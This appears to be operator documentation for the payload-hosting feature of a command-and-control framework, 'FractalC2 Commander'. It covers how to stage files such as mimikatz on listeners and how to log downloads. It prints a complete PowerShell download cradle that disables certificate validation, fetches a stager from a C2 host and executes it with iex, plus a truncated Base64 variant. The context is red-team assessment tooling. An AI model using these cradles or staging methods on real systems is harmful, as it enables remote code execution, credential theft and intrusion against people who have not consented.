

# Payload Delivery & Web Staging — Functional Guide

## Purpose and Business Value

During the initial compromise and lateral expansion phases of an assessment, operators frequently need to stage payload files, cradle scripts, reconnaissance tools, and binaries on public-facing HTTP/HTTPS servers. Traditionally, operators had to maintain separate web servers (e.g., Python `http.server`, Nginx, Apache) and manually construct download URLs and evasion stubs.

The **Web Hosting & Staging Subsystem** in Commander integrates file hosting directly into the FractalC2 C2 listeners:
- **Instant Staging**: Host arbitrary files on active TeamServer listeners with custom URI paths using a single command (`host push`).
- **Automated Cradle Generation**: Automatically generates ready-to-execute PowerShell download cradles (in both clear-text and Base64-encoded forms, complete with TLS 1.2 and certificate bypass handlers).
- **Ingress Telemetry & Access Logging**: Real-time auditing of requests reaching hosted files (`host log`), providing immediate confirmation when a target endpoint or sandbox downloads a staged payload.
- **Dynamic Resource Hygiene**: Safely unmount or flush hosted assets (`host delete`, `host clear`) once staging operations finish.

---

## Web Staging Lifecycle



---

## Command Operations (`host`)

The `host` command manages all web staging capabilities through sub-action verbs:

### 1. Staging a File (`host push`)
- Syntax:
  ```text
  host push -f <local_file> -p <uri_path> [-ps] [-d "<description>"]
  ```
- Parameters:
  - `-f, --file`: Absolute or relative path to the local file to host.
  - `-p, --path`: The web URI path where the file will be accessible on the listener (e.g., `payload.bin`, `en-us/office.ps1`).
  - `-ps, --powershell`: (Optional) Flags the file as a PowerShell script to enable automated cradle script generation.
  - `-d, --description`: (Optional) Functional description or tracking note for the engagement log.
- Example:
  ```text
  $> host push -f ./bin/mimikatz.exe -p tools/mimi.exe -d "Security audit binary"
  File ./bin/mimikatz.exe hosted on tools/mimi.exe.
  ```

### 2. Inspecting Hosted Assets (`host show`)
- Syntax: `host show [-p <path>] [-l <listener>]`
- Displays a formatted table grouping hosted endpoints under each active listener:
  ```text
  ── Local-HTTP ──────────────────────────────────────────────────────────────────
  ┌─────────────────────────────────┬────────────┬─────────────────────────────┐
  │ Url                             │ PowerShell │ Description                 │
  ├─────────────────────────────────┼────────────┼─────────────────────────────┤
  │ http://192.168.1.50:80/tools/mimi.exe │ No         │ Security audit binary       │
  │ http://192.168.1.50:80/stager.ps1     │ Yes        │ In-memory staging cradle    │
  └─────────────────────────────────┴────────────┴─────────────────────────────┘
  ```

### 3. Automated Script Cradle Generation (`host script`)
When hosting PowerShell stagers or scripts (`-ps`), typing `host script` automatically formats injection cradles tailored to the active listener (including HTTPS certificate validation bypass logic):

- **Plaintext Cradle**:
  ```powershell
  powershell -noP -sta -w 1 -c "[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;Add-Type 'using System.Net;using System.Net.Security;using System.Security.Cryptography.X509Certificates;public static class SSLHandler{public static void Ignore(){ServicePointManager.ServerCertificateValidationCallback=(sender,cert,chain,errors)=>true;}}';[SSLHandler]::Ignore();(New-Object Net.WebClient).DownloadString('https://c2.corp.com:443/stager.ps1') | iex"
  ```
- **Base64-Encoded One-Liner**:
  ```powershell
  powershell -noP -sta -w 1 -e W05ldC5TZXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VjdXJpdHlQcm90b2NvbD1...
  ```

### 4. Telemetry & Download Auditing (`host log`)
- Syntax: `host log`
- Inspects every HTTP request handled by the WebHost subsystem.
- Renders:
  - **Date**: Local timestamp of the request.
  - **Url**: The requested URI path.
  - **UserAgent**: HTTP client identifier (e.g., `Mozilla/5.0...`, `PowerShell/5.1`, or sandbox analyzers like `curl/7.68.0`).
  - **StatusCode**: HTTP response code returned (e.g., `200`, `404`).

### 5. Unmounting and Purging (`host delete` / `host clear`)
- Remove single file: `host delete -p <path>`
- Purge all hosted assets: `host clear`

---

## Technical Cross-Reference

- Web host verb command implementation: [Command Handlers](../../Technical/Commander/command-handlers.md).
- PowerShell cradle string builder and SSL bypass generator: [Formatters & Helpers](../../Technical/Commander/formatters-and-helpers.md).
- TeamServer WebHost client API contracts: [Communication & State Sync](../../Technical/Commander/communication-and-state-sync.md).
